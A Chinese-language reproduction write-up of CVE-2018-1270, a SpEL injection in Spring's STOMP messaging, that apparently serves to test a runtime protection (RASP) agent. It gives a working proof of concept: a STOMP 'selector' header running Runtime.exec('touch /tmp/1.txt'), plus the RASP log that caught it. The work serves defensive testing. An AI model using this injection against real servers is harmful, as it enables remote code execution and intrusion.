

# CVE-2018-1270

## 漏洞简介

Spring框架中的 spring-messaging 模块提供了一种基于WebSocket的STOMP协议实现，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，攻击者可以通过构造恶意的消息来实现远程代码执行。

## 影响版本

SpringFramework 5.0 ~ 5.0.4，4.3 ~ 4.3.14，以及停止维护的更老版本均受影响

## 复现环境


+ 代码下载并切换到有漏洞的 commit
```
git clone https://github.com/spring-guides/gs-messaging-stomp-websocket
git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3 
```

+ 篡改前端app.js



图片中的完整代码
```js
function connect() {
    var header = {"selector":"T(java.lang.Runtime).getRuntime().exec('touch /tmp/1.txt')"};
    var socket = new SockJS('/gs-guide-websocket');
    stompClient = Stomp.over(socket);
    stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        },header);
    });
}
```
+ 编译工程

在 `gs-messaging-stomp-websocket/complete` 下执行 `mvn clean package`

+ 启动 web 工程

在 `gs-messaging-stomp-websocket/complete` 下执行 `java -jar ./target/gs-messaging-stomp-websocket-0.1.0.jar`

+ 访问该项目，先点击Connect按钮与服务端建立连接，这时selector头也发送到了服务端

+ 发送消息与服务端通信时，之前发送的Spring表达式会被解析，从而造成rce.

+ /tmp/1.txt 文件被创建 RCE 成功执行

## RASP防护

+ RASP 截获的具体的日志
```json
{
	"cmdArray": ["touch", "/tmp/1.txt"],
	"stackTrace": [
      "java.lang.ProcessImpl.start(ProcessImpl.java)",
      "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
      "java.lang.Runtime.exec(Runtime.java:620)",
      "java.lang.Runtime.exec(Runtime.java:450)",
      "java.lang.Runtime.exec(Runtime.java:347)",
      "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
      "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
      "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
      "java.lang.reflect.Method.invoke(Method.java:498)",
      "org.springframework.expression.spel.support.ReflectiveMethodExecutor.execute(ReflectiveMethodExecutor.java:120)",
      "org.springframework.expression.spel.ast.MethodReference.getValueInternal(MethodReference.java:107)",
      "org.springframework.expression.spel.ast.MethodReference.access$000(MethodReference.java:53)",
      "org.springframework.expression.spel.ast.MethodReference$MethodValueRef.getValue(MethodReference.java:360)",
      "org.springframework.expression.spel.ast.CompoundExpression.getValueInternal(CompoundExpression.java:89)",
      "org.springframework.expression.spel.ast.SpelNodeImpl.getTypedValue(SpelNodeImpl.java:116)",
      "org.springframework.expression.spel.standard.SpelExpression.getValue(SpelExpression.java:306)",
      "org.springframework.messaging.simp.broker.DefaultSubscriptionRegistry.filterSubscriptions(DefaultSubscriptionRegistry.java:217)",
      "org.springframework.messaging.simp.broker.DefaultSubscriptionRegistry.findSubscriptionsInternal(DefaultSubscriptionRegistry.java:186)",
      "org.springframework.messaging.simp.broker.AbstractSubscriptionRegistry.findSubscriptions(AbstractSubscriptionRegistry.java:127)",
      "org.springframework.messaging.simp.broker.SimpleBrokerMessageHandler.sendMessageToSubscribers(SimpleBrokerMessageHandler.java:350)",
      "org.springframework.messaging.simp.broker.SimpleBrokerMessageHandler.handleMessageInternal(SimpleBrokerMessageHandler.java:272)",
      "org.springframework.messaging.simp.broker.AbstractBrokerMessageHandler.handleMessage(AbstractBrokerMessageHandler.java:241)",
      "org.springframework.messaging.support.ExecutorSubscribableChannel$SendTask.run(ExecutorSubscribableChannel.java:138)",
      "org.springframework.messaging.support.ExecutorSubscribableChannel.sendInternal(ExecutorSubscribableChannel.java:94)",
      "org.springframework.messaging.support.AbstractMessageChannel.send(AbstractMessageChannel.java:119)",
      "org.springframework.messaging.support.AbstractMessageChannel.send(AbstractMessageChannel.java:105)",
      "org.springframework.messaging.simp.SimpMessagingTemplate.sendInternal(SimpMessagingTemplate.java:187)",
      "org.springframework.messaging.simp.SimpMessagingTemplate.doSend(SimpMessagingTemplate.java:162)",
      "org.springframework.messaging.simp.SimpMessagingTemplate.doSend(SimpMessagingTemplate.java:48)",
      "org.springframework.messaging.core.AbstractMessageSendingTemplate.send(AbstractMessageSendingTemplate.java:108)",
      "org.springframework.messaging.core.AbstractMessageSendingTemplate.convertAndSend(AbstractMessageSendingTemplate.java:150)",
      "org.springframework.messaging.core.AbstractMessageSendingTemplate.convertAndSend(AbstractMessageSendingTemplate.java:128)",
      "org.springframework.messaging.simp.annotation.support.SendToMethodReturnValueHandler.handleReturnValue(SendToMethodReturnValueHandler.java:188)",
      "org.springframework.messaging.handler.invocation.HandlerMethodReturnValueHandlerComposite.handleReturnValue(HandlerMethodReturnValueHandlerComposite.java:107)",
      "org.springframework.messaging.handler.invocation.AbstractMethodMessageHandler.handleMatch(AbstractMethodMessageHandler.java:527)",
      "org.springframework.messaging.simp.annotation.support.SimpAnnotationMethodMessageHandler.handleMatch(SimpAnnotationMethodMessageHandler.java:497)",
      "org.springframework.messaging.simp.annotation.support.SimpAnnotationMethodMessageHandler.handleMatch(SimpAnnotationMethodMessageHandler.java:88)",
      "org.springframework.messaging.handler.invocation.AbstractMethodMessageHandler.handleMessageInternal(AbstractMethodMessageHandler.java:473)",
      "org.springframework.messaging.handler.invocation.AbstractMethodMessageHandler.handleMessage(AbstractMethodMessageHandler.java:409)",
      "org.springframework.messaging.support.ExecutorSubscribableChannel$SendTask.run(ExecutorSubscribableChannel.java:138)",
      "java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)",
      "java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)",
      "java.lang.Thread.run(Thread.java:748)"
    ]
}
```
由于是 socket 通信， 所以上面的信息没有 http 请求参数

+ 耗时
  
  2021-09-16 15:03:26 INFO  method: ProcessImpl.start.before, 耗时: 0.657864 ms
